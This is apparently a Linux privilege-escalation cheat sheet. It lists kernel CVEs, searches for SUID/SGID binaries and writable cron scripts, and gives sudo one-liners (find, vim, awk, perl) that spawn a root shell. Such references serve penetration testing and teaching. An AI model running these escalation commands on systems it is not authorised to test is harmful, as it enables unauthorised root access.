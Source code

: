 ### Kernel Exploits

```bash
# Check kernel version
uname -r

# Common kernel exploits:
# - DirtyCow (CVE-2016-5195)
# - overlayfs (CVE-2021-3493)
# - PwnKit (CVE-2021-4034)

# Search for exploits
searchsploit linux kernel <version>
```

### SUID/SGID Exploitation

```bash
# Find SUID files
find / -perm -4000 -type f 2>/dev/null

# Find SGID files
find / -perm -2000 -type f 2>/dev/null

# Common vulnerable SUID binaries:
# - find
# - nano/vim
# - bash
# - cp/mv

# Example: find command privilege escalation
touch /tmp/test
find /tmp/test -exec whoami \;
```

### Sudo Privilege Escalation

```bash
# Check sudo permissions
sudo -l

# Common sudo escalation vectors:
sudo find /etc/passwd -exec /bin/sh \;
sudo vim -c '!sh'
sudo awk 'BEGIN {system("/bin/sh")}'
sudo perl -e 'exec "/bin/sh";'
```

### Cron Job Exploitation

```bash
# Check cron jobs
cat /etc/crontab
ls -la /etc/cron*
crontab -l

# Look for writable cron scripts
find /etc/cron* -type f -writable 2>/dev/null
```
